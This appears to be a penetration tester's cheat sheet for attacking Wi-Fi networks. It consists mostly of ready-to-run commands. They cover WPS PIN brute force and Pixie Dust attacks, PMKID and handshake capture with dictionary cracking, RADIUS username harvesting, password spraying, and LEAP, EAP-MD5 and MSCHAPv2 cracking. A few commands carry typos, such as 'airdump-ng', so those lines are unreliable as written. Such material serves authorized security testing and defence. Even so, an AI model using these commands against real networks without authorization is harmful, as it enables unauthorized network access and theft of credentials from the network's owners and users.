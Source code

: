 ## WEP - Obsolete Protocol
	wifite
## WPA/WPA2-Personal (PSK)
###	WPS PIN Attack
		Known PINs + Generation Algorithms
			airgeddon.sh -> Known PINs database based attack
		WPS PIN Bruteforce (online)
			reaver -i mon0 -b <MAC_AP> -c <channel> -f -N [-L -d 2] -vv  
			bully mon0 -b <MAC_AP> -c <channel> -S -F -B -v 3
		WPS Pixie Dust Attack (offline)
			reaver -i mon0 -b <MAC_AP> -c <channel> -K -N -vv
			bully mon0 -b <MAC_AP> -d -v 3
		Null PIN attack
			reaver -i mon0 -b <MAC_AP> -c <channel> -f -N -g 1 -vv -p ''
###	PMKID Capture (client-less) & Cracking
hcxdumptool -i mon0 -o capture.pcapng --enable_status=1 -c <channel>
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z capture.16800 capture.pcapng
hashcat -m 16800 capture.16800 -a 0 -w 4 <wordlist>
		Can be automated using:
wifite --pmkid [--pmkid-timeout <sec>]
###	Handshake Capture (req. client) & Cracking
		airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>
		Can be automated using:
wifite --wpa [-dict <wordlist>]
WPA/WPA2-Enterprise (MGT)
	RADIUS Usernames Capture
		Wireshark > "Identity" field into EAP Message of type "Response, Identity"
		python crEAP.py -i mon0 -c <channel>
		Only possible when RADIUS Identity is sent in cleartext (EAP-MD5, LEAP, sometimes in weak config of other methods) 
	RADIUS Accounts Bruteforce / Password Spraying
		eaphammer --eap-spray --interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \
	--essid <target_ESSID> --password <password_to_spray> --user-list <usernames_list>
	LEAP & EAP-MD5 Handshake 
Capture & Cracking
		airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0
eapmd5pass r <capture> -w <wordlist>	# For EAP-MD5
asleap -r <capture> -W <wordlist> # For LEAP (crack MSCHAPv2 challenge/response)
		LEAP & EAP-MD5 are old deprecated EAP methods that transmit client authentication (challenge/response) in cleartext
	MSCHAPv2 Challenge / Response Capture (via Rogue AP) & Cracking
		asleap -C <mschapv2_challenge> -R <mschapv2_response> -W <wordlist>  
# Challenge/response colon-delimited format
		Possible when EAP method is using MSCHAPv2 for client authentication (e.g. PEAPv0(MSCHAPv2), EAP-TTLS(MSCHAPv2))
